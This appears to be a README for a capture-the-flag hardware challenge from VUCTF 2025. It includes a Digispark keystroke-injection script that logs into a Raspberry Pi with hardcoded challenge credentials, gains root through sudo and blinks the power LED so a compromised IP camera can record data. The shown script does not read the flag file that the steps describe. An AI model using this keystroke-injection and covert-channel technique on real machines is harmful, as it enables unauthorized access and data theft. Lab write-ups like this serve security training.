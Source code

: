 ## Hard hardware
This is the hard hardware challenge part of the hardware challenge series during VUCTF 2025. 

**Target system**
- Raspberry pi os lite (64 bit) no desktop (2025-05-04)
- Raspberry pi 4B


The players needs to:
1. Write a script onto the digispark which will read the flag file and blink the leds of the raspberry pi
2. Capture the led blinks through the pwned IP camera. 
3. Read the capture and extract the flag

Script to do this
```c
// login
vuctf
vuctf

// get to root
sudo su

// change led brightness to max
echo 255 > /sys/class/leds/PWR/brightness

// change led brightness to min/off
echo 0 > /sys/class/leds/PWR/brightness


```


### Solve script
```c
#include "DigiKeyboard.h"

void setup() {
  // empty setup
}

void send_keys(const char* command) {
  DigiKeyboard.delay(1000);
  DigiKeyboard.print(command);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {
  // login to the tty 
  send_keys("vuctf");
  send_keys("vuctf");

  send_keys("sudo su");
  send_keys("studsec_VUctf_2025_H3rdw4re");
    
  send_keys("echo 255 > /sys/class/leds/PWR/brightness");
  send_keys("echo 0 > /sys/class/leds/PWR/brightness");
  send_keys("echo 255 > /sys/class/leds/PWR/brightness");
  send_keys("echo 0 > /sys/class/leds/PWR/brightness");
  send_keys("echo 255 > /sys/class/leds/PWR/brightness");
  send_keys("echo 0 > /sys/class/leds/PWR/brightness");
  send_keys("echo 255 > /sys/class/leds/PWR/brightness");
  send_keys("echo 0 > /sys/class/leds/PWR/brightness");
  send_keys("echo 255 > /sys/class/leds/PWR/brightness");

  // logout to apply changes
  send_keys("exit");
  send_keys("logout");

  // Infinite loop to stop execution
  for (;;) { /* empty loop */ }
}

```